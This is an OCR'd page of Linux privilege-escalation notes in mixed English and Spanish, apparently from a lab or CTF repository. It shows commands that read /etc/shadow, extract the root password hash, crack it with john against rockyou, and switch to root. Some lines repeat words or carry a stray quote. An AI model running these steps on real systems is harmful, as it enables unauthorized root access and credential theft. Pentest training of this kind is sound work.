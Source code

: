 ```
$ find /etc -maxdepth 1 -readable -type f
```

Find all directories which can be written to:

```
$ find / -executable -writable -type d 2> /dev/null
```

## /etc/shadow

<p>El archivo /etc/shadow contiene los hashes de las contraseñas de los usuarios, y por
por defecto no es legible por ningún usuario excepto por el root.</p>
<p>Si somos capaces de leer el contenido del archivo /etc/shadow, podríamos
podríamos ser capaces de descifrar el hash de la contraseña del usuario root.</p>
<p>Si somos capaces de modificar el archivo /etc/shadow, podemos reemplazar
el hash de la contraseña del usuario root por uno que conozcamos.</p>

## Privilege Escalation

1- Check the permissions of the /etc/shadow file:

```
$ ls -l /etc/shadow
-rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow
```

2- Extract the root user’s password hash:

```
$ head -n 1 /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXv
RDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
```

3- Save the password hash in a file (e.g. hash.txt):

```
$ echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVl
aXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'
```

4-Crack the password hash using john:

```
$ john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.t
xt hash.txt
...
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE
2 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
password123
(?)
```

5- Use the su command to switch to the root user, entering the password we cracked when prompted:
